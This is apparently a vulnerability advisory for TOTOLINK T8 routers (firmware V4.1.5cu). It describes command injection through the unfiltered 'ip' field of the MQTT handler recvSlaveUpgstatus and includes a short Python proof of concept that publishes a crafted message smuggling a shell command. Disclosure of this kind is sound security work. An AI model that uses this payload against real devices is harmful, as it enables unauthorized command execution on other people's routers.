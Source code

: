 # A command injection vulnerability in the function recvSlaveUpgstatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function recvSlaveUpgstatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `recvSlaveUpgstatus`,The "ip" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116190012321](images/3.png)

POC

```
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/recvSlaveUpgstatus", b'{"status":"1","ip":";ls>/tmp/recvSlaveUpgstatus.txt;"}')
```

![image-20230116190122667](images/4.png)